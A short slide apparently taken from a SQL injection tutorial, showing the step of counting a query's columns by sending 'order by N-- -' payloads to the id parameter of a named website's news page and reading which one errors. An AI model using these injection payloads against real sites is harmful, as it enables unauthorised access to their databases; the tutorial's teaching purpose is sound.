

# Step 03: Column count using (order by , group by)
http://iagcc.com/news.php?id=58 order by 1-- -(no error)…….
http://iagcc.com/news.php?id=58 order by 6-- -(no error)
http://iagcc.com/news.php?id=58 order by 7-- -(error)
As, we got not error from number 1 to 6 but got error in 7 . So the number of column is  6